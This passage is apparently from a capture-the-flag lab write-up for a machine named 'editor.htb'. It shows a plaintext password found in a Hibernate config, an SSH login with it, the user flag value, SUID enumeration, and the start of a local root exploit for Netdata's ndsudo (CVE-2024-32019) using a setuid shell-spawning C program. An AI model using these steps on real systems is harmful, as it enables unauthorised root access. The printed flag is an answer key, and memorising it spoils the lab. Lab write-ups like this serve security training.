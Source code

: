 ```xml
<property name="hibernate.connection.password">theEd1t0rTeam99</property>
```

This credential likely corresponds to a local user (or DB) and is useful for lateral privilege escalation.

---

## User Access — SSH as `oliver` & user flag

Use the discovered password to SSH:

```bash
ssh oliver@editor.htb
# password: theEd1t0rTeam99
```

Once logged in:

```bash
cd /home/oliver
ls
cat user.txt
# user.txt -> bc2341152c638da4a05b91d91c1df26f
```

---

## Privilege Escalation — Netdata ndsudo (CVE-2024-32019)

### SUID binaries enumeration

As `oliver` (or via the `xwiki` shell after pivot), search for SUID files:

```bash
find / -type f -perm -4000 -user root 2>/dev/null
```

This returned a Netdata plugin:

```
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
```

This plugin is vulnerable to **CVE-2024-32019** allowing execution of arbitrary binaries as root if `PATH` is manipulated or plugin execution flow accepts arbitrary commands.

### Exploit approach (local binary execution)

1. Create a small C program that spawns a root shell:

```c
/* exploit.c */
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```
